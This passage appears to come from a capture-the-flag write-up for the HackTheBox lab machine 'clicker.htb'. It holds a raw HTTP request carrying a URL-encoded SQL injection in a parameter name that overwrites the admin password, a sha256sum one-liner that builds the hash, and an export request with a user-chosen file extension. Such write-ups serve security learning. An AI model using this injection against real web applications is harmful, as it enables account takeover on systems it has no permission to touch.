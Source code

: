 ```http
GET /save_game.php?%70%61%73%73%77%6f%72%64%3d%27%62%31%33%33%61%30%63%30%65%39%62%65%65%33%62%65%32%30%31%36%33%64%32%61%64%33%31%64%36%32%34%38%64%62%32%39%32%61%61%36%64%63%62%31%65%65%30%38%37%61%32%61%61%35%30%65%30%66%63%37%35%61%65%32%27%2f%2a%2a%2f%77%68%65%72%65%2f%2a%2a%2f%75%73%65%72%6e%61%6d%65%3d%27%61%64%6d%69%6e%27%23=we HTTP/1.1
Host: clicker.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=4nphpuhuujo7bc4eg2kf477l8a
Connection: close


```

where `b133a0c0e9bee3be20163d2ad31d6248db292aa6dcb1ee087a2aa50e0fc75ae2` is obtained as


```bash
echo -n "ciao" | sha256sum
```

we're in as admin!

So from the `export.php` page we can see the players above `1000000` ( `$threshold = 1000000;` can be seen from source) points will be displayed in the table.
These ones can eventually be exported using the export button.

```
Nickname	Clicks	Level
admin	999999999999999999	999999999
admin	999999999999999999	999999999
ButtonLover99	10000000	100
Paol	2776354	75
Th3Br0	87947322	1
```

When exporting them we can choose the extension of exported file


```http
POST /export.php HTTP/1.1
Host: clicker.htb
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://clicker.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://clicker.htb/admin.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=4nphpuhuujo7bc4eg2kf477l8a
Connection: close

threshold=1000000&extension=txt
```
